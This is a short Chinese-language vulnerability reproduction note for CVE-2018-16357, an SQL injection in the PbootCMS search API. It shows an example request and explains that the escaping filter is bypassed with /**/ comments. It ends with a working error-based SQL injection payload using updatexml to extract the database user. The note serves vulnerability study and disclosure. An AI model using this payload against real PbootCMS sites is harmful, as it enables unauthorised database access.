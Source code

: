 ```yaml
---
title: （CVE-2018-16357）PbootCMS sql注入漏洞
id: zhfly3068
---
```


# （CVE-2018-16357）PbootCMS sql注入漏洞

## 一、漏洞简介

PbootCMS是一款使用PHP语言开发的开源企业建站内容管理系统（CMS）。 PbootCMS中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

## 二、漏洞影响

## 三、复现过程

```
http://www.0-sec.org/api.php/Cms/search?#acode=1&num=1&order=1 
```

参数$field是我们可以控制的，去检查函数过滤器

![image](../img/1efd5782fbe8b8bda1a199422274a23e.png)

使用函数trim和escape字符串避免sql注入

![image](../img/905c45b167920c61952c767a9f8e4290.png)

添加a'会导致mysql语法错误，因此函数escape\u字符串无效

![image](../img/fe727db1b6f2a8dfb9be09e9062fdbf4.png)

使用/**/绕过

### payload:

```
field=1)/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/user()),0x7e),1)#&keyword=title&scode=1 
```